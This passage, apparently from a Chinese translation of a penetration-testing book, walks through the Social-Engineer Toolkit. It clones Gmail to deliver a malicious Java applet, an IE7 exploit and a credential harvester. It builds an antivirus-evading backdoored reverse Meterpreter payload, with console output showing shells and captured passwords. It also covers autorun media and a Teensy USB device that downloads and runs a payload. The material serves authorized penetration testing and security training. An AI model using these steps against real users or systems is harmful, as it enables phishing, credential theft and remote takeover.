  Enter your choice one at a time (hit 8 or enter to launch):
```

通过从主菜单中选择`多攻击网络方法`  开始配置攻击，然后选择`站点克隆器`  并输入要克隆的 URL，[`gmail.com`](https://gmail.com) 。接下来，SET 会显示不同攻击的菜单。选择`Java 小程序攻击方法` ，然后选择`Metasploit 浏览器漏洞利用方法` ，最后选择`Web 劫持攻击方法` 。您还可以选择选项 7，`全部使用 - 俗称“战术核弹”`，以自动启用所有攻击向量。

在前面的示例中，请注意标志已更改，Java 小程序、Metasploit 浏览器漏洞利用、凭证收集器和 Web 劫持攻击方法都已启用。要继续，请按回车键或选择选项 8（`我完成了...`）。

```
Enter your choice one at a time (hit 8 or enter to launch):
  What payload do you want to generate:

  Name:                                      Description:

 2\. Windows Reverse_TCP Meterpreter         Spawn
 a meterpreter shell on victim and send
  back to attacker.

  Enter choice (hit enter for default):

  Below is a list of encodings to try and bypass AV.

  Select one of the below, 'backdoored executable' is typically the best.

 16\. Backdoored Executable (BEST)

  Enter your choice (enter for default):
  [-] Enter the PORT of the listener (enter for default):

  [-] Backdooring a legit executable to bypass Anti-Virus. Wait a few seconds...
  [-] Backdoor completed successfully. Payload is now
 hidden within a legit executable.

  ********************************************************
  Do you want to create a Linux/OSX reverse_tcp payload
  in the Java Applet attack as well?
  ********************************************************

 Enter choice yes or no: `no`

  Enter the browser exploit you would like to use

 8\. Internet Explorer 7 Uninitialized Memory Corruption (MS09-002)

  Enter your choice (1-12) (enter for default): `8`

  [*] Cloning the website: https://gmail.com
  [*] This could take a little bit...
  [*] Injecting Java Applet attack into the newly cloned website.
  [*] Filename obfuscation complete. Payload name is: x5sKAzS
  [*] Malicious java applet website prepped for deployment

  [*] Injecting iframes into cloned website for MSF Attack....
  [*] Malicious iframe injection successful...crafting payload.

  resource (src/program_junk/meta_config)> exploit -j
  [*] Exploit running as background job.
  msf exploit(ms09_002_memory_corruption) >
  [*] Started reverse handler on 172.16.32.129:443
  [*] Using URL: http://0.0.0.0:8080/
  [*] Local IP: http://172.16.32.129:8080/
  [*] Server started.
```

要完成攻击设置，选择默认的反向 Meterpreter 有效载荷 以及默认编码和监听端口 。选择不配置 Linux 和 OS X 有效载荷 ，然后将浏览器漏洞设置为 `Internet Explorer 7 未初始化内存损坏 (MS09-002)` ；然后 SET 将启动攻击。

一切运行起来后，你可以浏览到网站并查看那里发生了什么。一个消息 URL 告诉你该网站已迁移。请参阅图 10-4 以了解目标在其机器上会看到什么。

点击链接，Metasploit 漏洞利用开始。这里是在后端的手柄：

```
[*] Sending Internet Explorer 7 CFunctionPointer Uninitialized Memory
     Corruption to 172.16.32.131:1329...
```

这个漏洞利用失败，因为我们使用的是 Internet Explorer 6。目标的屏幕显示在图 10-6。

图 10-6. 多攻击安全警告

然而，我们有一个备份攻击。目标点击恶意 Java 小程序中的“运行”，一个 Meterpreter 命令行界面开始，目标被重定向回原始 Gmail 页面。攻击成功。

注意，当使用 Java 小程序时，我们会自动迁移到一个单独的线程（进程），恰好是 *notepad.exe*。因此，如果目标关闭浏览器，我们的攻击会继续，因为进程不会终止我们的 Meterpreter 命令行界面。此外，在配置文件中，你可以设置“Java 重复器”选项，即使目标点击“取消”，也会继续提示目标使用 Java 小程序警告。这使得目标更有可能点击“运行”按钮。

一旦成功执行漏洞利用，就会向我们展示 Meterpreter 命令行界面，如下所示。

```
[*] Sending stage (748544 bytes) to 172.16.32.131
[*] Meterpreter session 1 opened (172.16.32.129:443 -> 172.16.32.131:1333) at
     Thu Sep 09 12:33:20 −0400 2010
[*] Session ID 1 (172.16.32.129:443 -> 172.16.32.131:1333) processing
     InitialAutoRunScript 'migrate -f'
[*] Current server process: java.exe (824)
[*] Spawning a notepad.exe host process...
[*] Migrating into process ID 3044
[*] New server process: notepad.exe (3044)
msf exploit(ms09_002_memory_corruption) >
```

现在假设这次攻击失败，目标点击“取消”（没有启用重复器选项）。然后他会提示输入用户名和密码到用户名和密码字段，让你能够成功收集网站上的凭证，并且攻击仍然成功。虽然你不会有一个 Meterpreter 命令行界面，因为目标没有点击“运行”，但你仍然能够拦截凭证：

```
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: Email=thisismyusername
POSSIBLE PASSWORD FIELD FOUND: Passwd=thisismypassword
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
```

正如你在前面的示例中看到的，SET 在其武器库中提供了一系列强大的基于 Web 的攻击向量。说服目标认为克隆的网站是合法的可能会很困难。大多数知识渊博的用户通常对不熟悉的网站持谨慎态度，并在浏览互联网时尽量避免潜在的安全问题。SET 试图利用这种谨慎，通过让你模仿已知网站，甚至欺骗一些最精明的技术人员。

## 感染性媒体生成器

感染性媒体生成器是一个相对简单的攻击向量。使用此向量，SET 会为您创建一个文件夹，您可以将它烧录到 CD/DVD 上或存储在 USB 驱动器上。使用 *autorun.inf* 文件，一旦将其插入目标机器，就会执行攻击创建期间指定的任何内容。目前，SET 支持可执行文件（如 Meterpreter）以及文件格式漏洞（如 Adobe 漏洞）。

## Teensy USB HID 攻击向量

Teensy USB HID（人机界面设备）攻击向量是定制硬件和通过键盘模拟绕过限制的出色组合。传统上，当您将 CD/DVD 或 USB 插入电脑时，如果禁用了自动运行，*autorun.inf* 不会被调用，您无法自动执行代码。然而，使用 Teensy USB HID，您可以模拟键盘和鼠标。当您插入设备时，它将被检测为键盘，并且使用微处理器和板载闪存存储，您可以向目标机器发送一组非常快速的按键，并完全控制它，无论是否启用自动运行。您可以在 [`www.prjc.com/`](http://www.prjc.com/) 订购 Teensy USB HID。

让我们设置一个 Teensy USB HID 来执行 Metasploit 有效载荷的 WScript 下载。在以下示例中，将编写一个小 WScript 文件，该文件将下载一个可执行文件并执行它。这将是我们 Metasploit 有效载荷，并且所有操作都通过 SET 完成。

```
Select from the menu:

 6\.  Teensy USB HID Attack Vector

  Enter your choice: `6`

  Welcome to the Teensy HID Attack Vector.

  Special thanks to: IronGeek and WinFang

  1\. Powershell HTTP GET MSF Payload
 2\. WSCRIPT HTTP GET MSF Payload
  3\. Powershell based Reverse Shell
  4\. Return to the main menu.

  Enter your choice: `2`
 Do you want to create a payload and listener yes or no: `yes`
  What payload do you want to generate:

  Name:                                      Description:

  `. . . SNIP . . .`

  2\. Windows Reverse_TCP Meterpreter         Spawn a meterpreter
 shell on victim and send
                                                 back to attacker.

 Enter choice (hit enter for default):

  Below is a list of encodings to try and bypass AV.

  Select one of the below, 'backdoored executable' is typically the best.

  `. . . SNIP . . .`

  16\. Backdoored Executable (BEST)

 Enter your choice (enter for default):
  [-] Enter the PORT of the listener (enter for default):

  [-] Backdooring a legit executable to bypass Anti-Virus. Wait a few seconds...
  [-] Backdoor completed successfully. Payload is now hidden within a legit executable

  [*] PDE file created. You can get it under 'reports/teensy.pde'
  [*] Be sure to select "Tools", "Board", and "Teensy 2.0 (USB/KEYBOARD)" in Arduino
  Press enter to continue.

  [*] Launching MSF Listener...
  resource (src/program_junk/meta_config)> `exploit -j`
  [*] Exploit running as background job.
  msf exploit(handler) >
  [*] Started reverse handler on 0.0.0.0:443
  [*] Starting the payload handler...
```

要开始设置此攻击，从主菜单中选择 `Teensy USB HID 攻击向量` ，然后选择 `WSCRIPT HTTP GET MSF Payload` 。然后告诉 SET 设置一个有效载荷和监听器 ，选择默认的 Meterpreter 有效载荷  和编码方法 。

现在您有了 *.pde* 文件，您需要下载并使用 Arduino 接口，这是一个用于将 *.pde* 文件编译成上传到您的 Teensy 设备的图形用户界面。

对于此攻击，请遵循 PJRC ([`www.pjrc.com/`](http://www.pjrc.com/)) 上的说明将代码上传到 Teensy 板。这相对简单。您安装 Teensy 加载器和库。然后您将看到一个名为 *Arduino* 的 IDE（集成驱动电子）界面。（Arduino/Teensy 支持在 Linux、Mac OS X 和 Windows 操作系统上运行。）其中最重要的一个方面是确保您将板设置为 Teensy USB 键盘/鼠标，如图 图 10-7 所示。

 图 10-7. 设置 Teensy 设备

在您选择好之后，将您的 *.pde* 文件拖入 Arduino 接口。将您的 USB 设备插入电脑并上传您的代码。这将使用 SET 生成的代码编程您的设备。图 10-8 展示了正在上传的代码。

在将编程好的 USB 设备插入目标机器并安装代码后，您应该看到一个 Meterpreter 外壳：

```
[*] Sending stage (748544 bytes) to 172.16.32.131
[*] Meterpreter session 1 opened (172.16.32.129:443 -> 172.16.32.131:1333) at
     Thu June 09 12:52:32 −0400 2010
[*] Session ID 1 (172.16.32.129:443 -> 172.16.32.131:1333) processing
     InitialAutoRunScript 'migrate -f'
[*] Current server process: java.exe (824)
[*] Spawning a notepad.exe host process...
[*] Migrating into process ID 3044
[*] New server process: notepad.exe (3044)
```

图 10-8. Teensy 攻击代码上传

## SET 的其他功能

我们不会涵盖 Social-Engineer Toolkit 的每个方面，但它确实有一些特别值得注意的方面。一个值得注意的工具是 SET 交互式外壳：一个可以选择作为有效载荷而不是 Meterpreter 的交互式外壳。另一个功能是 RATTE（远程管理工具汤米版），这是一个完整的 HTTP 隧道有效载荷，由托马斯·沃斯创建。它依赖于基于 HTTP 的通信，并在目标机器上依赖代理设置。当目标使用出口和包检查规则来检测非 HTTP 流量时，RATTE 特别有用。RATTE 使用 Blowfish 加密算法进行通信，以允许在 HTTP 上实现完全加密。

其他两个工具包括 SET Web-GUI（一个完整的 Web 应用程序，自动化了上述讨论的几个攻击）和无线攻击向量。要运行 SET Web-GUI，只需从 SET 主文件夹中输入**`./set-web`**。Web-GUI 是用 Python 编写的，通过 Web 界面执行攻击是一个很好的方法。无线攻击向量在攻击机器上创建一个恶意接入点。当目标连接到接入点时，他访问的任何网站都会被重定向到攻击者机器，然后可以在目标上启动一系列 SET 攻击（如 harvester 或 Java 小程序）。

## 展望未来

与 Metasploit 一样，SET 是一个持续发展的项目。安全社区已经接受了 SET 的功能和潜力，并继续为其改进做出贡献。社会工程攻击正在增加，因此确保您能够正确测试这些攻击向量对于任何全面的网络安全计划至关重要。

随着组织和供应商在软件和硬件解决方案方面提高保护其网络边界的技能，我们常常忘记通过电话或电子邮件联系用户并说服他们点击或下载可能被用于攻击的东西是多么容易。总的来说，社会工程需要技巧和实践，而一个优秀的攻击者知道他需要确保攻击专门针对目标公司用户意识计划或系统中的弱点。一个熟练的攻击者知道，花几天时间研究一个组织，查看 Facebook 或 Twitter 页面，并确定可能触发某人匆忙点击的东西，与攻击背后使用的工具一样重要。

SET 等工具对攻击者很有用，但请始终记住，作为一名渗透测试员，您的技能由您的创造力和您在困难情况下的导航能力定义。SET 可以帮助您攻击目标，但最终，如果您失败了，可能是因为您不够有创意。
